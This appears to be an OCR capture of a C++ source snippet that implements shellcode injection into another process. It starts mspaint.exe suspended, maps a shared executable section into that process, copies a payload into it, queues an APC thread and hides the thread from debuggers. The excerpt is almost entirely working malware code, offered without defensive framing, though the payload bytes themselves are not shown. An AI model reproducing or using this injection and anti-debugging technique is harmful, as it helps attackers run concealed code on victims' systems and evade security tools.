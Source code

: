 ```cpp
  pNtMapViewOfSection myNtMapViewOfSection = 
  (pNtMapViewOfSection)(GetProcAddress(
    ntdll, "NtMapViewOfSection"));
  pZwUnmapViewOfSection myZwUnmapViewOfSection = 
  (pZwUnmapViewOfSection)(GetProcAddress(
    ntdll, "ZwUnmapViewOfSection"));
  pZwQueueApcThread myZwQueueApcThread = 
  (pZwQueueApcThread)GetProcAddress(
    ntdll, "ZwQueueApcThread");
  pZwSetInformationThread myZwSetInformationThread = 
  (pZwSetInformationThread)GetProcAddress(
    ntdll, "ZwSetInformationThread");
  pZwClose myZwClose = 
  (pZwClose)GetProcAddress(
    ntdll, "ZwClose");

  // create process as suspended
  if (!CreateProcessA(NULL, 
  (LPSTR) "C:\\windows\\system32\\mspaint.exe", 
  NULL, NULL, NULL,
  CREATE_SUSPENDED | DETACHED_PROCESS | CREATE_NO_WINDOW,
  NULL, NULL, &si, &pi)) {
    printf("create process failed :(\n");
    return -2;
  };

  myZwCreateSection(&sh, 
  SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, 
  NULL, &sectionS, 
  PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
  printf("section handle: %p.\n", sh);

  // mapping the section into current process
  myNtMapViewOfSection(sh, GetCurrentProcess(), &lb, 
  NULL, NULL, NULL,
  &s, 2, NULL, PAGE_EXECUTE_READWRITE);
  printf("local process mapped at address: %p.\n", lb);

  // mapping the section into remote process
  myNtMapViewOfSection(sh, pi.hProcess, &rb, 
  NULL, NULL, NULL,
  &s, 2, NULL, PAGE_EXECUTE_READWRITE);
  printf("remote process mapped at address: %p\n", rb);

  // copy payload
  memcpy(lb, my_payload, sizeof(my_payload));

  // unmapping section from current process
  myZwUnmapViewOfSection(GetCurrentProcess(), lb);
  printf("mapped at address: %p.\n", lb);
  myZwClose(sh);

  sh = NULL;

  // create new thread
  myZwQueueApcThread(pi.hThread, (PIO_APC_ROUTINE)rb, 0, 0, 0);
  myZwSetInformationThread(pi.hThread, (THREADINFOCLASS)1,
  NULL, NULL);
  ResumeThread(pi.hThread);
  myZwClose(pi.hThread);
  myZwClose(th);

  return 0;
```
